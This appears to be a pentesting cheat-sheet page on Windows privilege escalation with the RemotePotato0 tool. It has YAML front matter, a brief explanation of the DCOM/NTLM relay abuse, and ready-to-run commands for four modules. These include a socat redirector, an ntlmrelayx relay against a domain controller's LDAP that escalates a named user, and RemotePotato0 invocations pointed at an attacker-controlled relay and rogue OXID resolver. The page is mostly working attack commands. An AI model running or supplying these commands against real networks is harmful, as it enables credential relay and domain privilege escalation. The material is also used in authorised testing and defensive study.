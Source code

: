 ```yaml
---
title: Windows PrivEsc with RemotePotato
description:
tags:
    - Privilege Escalation
    - Windows
refs:
    - https://github.com/antonioCoco/RemotePotato0
date: 2023-11-11
draft: false
---
```


## Exploit

Reference: [RemotePotato0](https://github.com/antonioCoco/RemotePotato0)

According to the RemotePotato0's README, it abuses the DCOM activation service and trigger an NTLM authentication of any user currently logged on in the target machine. It is required that a privileged user is logged on the same machine (e.g. a Domain Admin user).  

We can download the executable from [https://github.com/antonioCoco/RemotePotato0](https://github.com/antonioCoco/RemotePotato0).  


### Module 0 (`-m 0`: Rpc2Http cross protocol relay server + potato trigger)

```bash
# In attack machine
sudo socat tcp-listen:135,fork,reuseaddr tcp:<target-ip>:9999 &
sudo ntlmrelayx.py -t ldap://<target-dc-ip> --no-wcf-server --escalate-user normal_user

# In target machine
# -m 0: Module (Rpc2Http cross protocol relay server + potato trigger)
# -r: Remote HTTP relay server
# -x: Rogue Oxid resolver ip
# -p: Rogue Oxid resolver port
# -s: Session id for the Cross Session Activation Attack
.\RemotePotato0.exe -m 0 -r <attack-ip> -x <attack-ip> -p 9999 -s 1
```

### Module 1 (`-m 1`: Rpc2Http cross protocol relay server)

```bash
# -l: RPC Relay server listening port
.\RemotePotato0.exe -m 1 -l 9997 -r <attack-ip>

rpcping -s 127.0.0.1 -e 9997 -a connect -u ntlm
```

### Module 2 (`-m 2`: Rpc capture server + potato trigger)

```bash
query user
.\RemotePotato0.exe -m 2 -x <local-ip> -p 9999 -s 1
```

### Module 3 (`-m 3`: Rpc capture server)

```bash
.\RemotePotato0.exe -m 3 -l 9997

rpcping -s 127.0.0.1 -e 9997 -a connect -u ntlm
```
